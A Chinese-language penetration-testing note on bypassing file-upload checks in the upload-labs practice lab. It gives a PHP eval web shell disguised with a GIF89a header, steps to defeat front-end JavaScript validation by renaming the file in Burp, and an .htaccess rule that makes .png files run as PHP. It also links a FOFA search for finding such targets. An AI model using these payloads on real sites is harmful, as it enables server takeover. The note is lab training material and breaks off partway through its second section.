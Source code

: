 # 文件上传



靶场项目地址：https://github.com/sqlsec/upload-labs-docker

fofa搜索语法："[JavaScript绕过](https://fofa.info/result?qbase64=SmF2YVNjcmlwdOe7lei%2Fhw%3D%3D)"

### JavaScript绕过

前端验证判断方法：

1.看JS代码

2.抓包，看是否有数据包

使用哥斯拉生成一个php后门文件，在前缀上添加一个：GIF89a

```
GIF89a
<?php
eval($_POST["pass"]);
```



先上传png后缀木马文件绕过前端验证

![image-20240419113552115](D:\Infiltration\笔记\note\图片\image-20240419113552115.png)

使用burp抓包，修改png后缀为php，然后放包。

![image-20240419113710081](D:\Infiltration\笔记\note\图片\image-20240419113710081.png)

上传成功后找不到文件目录，上传一个正常的图片文件，复制图片地址。

![image-20240419113948073](D:\Infiltration\笔记\note\图片\image-20240419113948073.png)

修改文件名为123.php，进行访问成功上传。

![image-20240419114019673](D:\Infiltration\笔记\note\图片\image-20240419114019673.png)



### .htaccess 

在apache这个配置文件可以让.png的文件当做application/x-httpd-php（PHP类型）执行

```
AddType application/x-httpd-php .png
```

先上传一个123.png

![image-20240419115646562](D:\Infiltration\笔记\note\图片\image-20240419115646562.png)

上传后的123.png

![image-20240419115745664](D:\Infiltration\笔记\note\图片\image-20240419115745664.png)
